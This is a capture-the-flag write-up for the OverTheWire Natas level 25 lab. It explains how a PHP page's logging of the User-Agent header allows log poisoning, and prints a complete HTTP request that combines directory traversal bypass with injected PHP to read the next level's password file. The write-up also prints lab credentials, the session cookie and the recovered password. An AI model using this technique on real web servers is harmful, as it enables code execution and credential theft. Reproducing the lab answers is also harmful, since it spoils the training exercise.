 natas25.natas.labs.overthewire.org/?lang=.../...//language/de

got stuck at this point. Read up on a write up.

Rhe pages echo's 3 values. $**GREETING, $**MSG and $\_\_FOOTER.

```php
echo "<h2>$__GREETING</h2>";
echo "<p align=\"justify\">$__MSG";
echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
```

Log function adds text from UserAgent to file if its triggered.  
It gets triggered if a directory traversal is found. This means if we add PHP code to the UserAgent we can write arbitrary code to logfiles in /var/www/natas/natas25/logs/natas25\_SESSIONID.log.

```php
function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
```

If we overwrite either $**GREETING, $**MSG or $\_\_FOOTER by passing PHP code in the UserAgent we can get output back from our arbitrary code.

```text
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
```

Since the safeinclude does not stop the request we can first trigger a log with a `../` and then add the `.../...//` for actual directory traversal.

So if we combine these 2

```text
GET /?lang=../.../...//logs/natas25_0fopbbtghrlijbe403knpoa5v5.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php global $__MSG; global $__FOOTER; global $__GREETING; $__MSG=file_get_contents('/etc/natas_webpass/natas26'); $__GREETING=$__MSG; $__FOOTER=$__MSG; ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
Connection: close
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=0fopbbtghrlijbe403knpoa5v5
Upgrade-Insecure-Requests: 1
```

```text
[23.09.2019 09::29:37]  "Directory traversal attempt! fixing request."
[23.09.2019 09::30:35]  "Directory traversal attempt! fixing request."
<h2>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
</h2><p align="justify">oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
<div align="right"><h6>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```
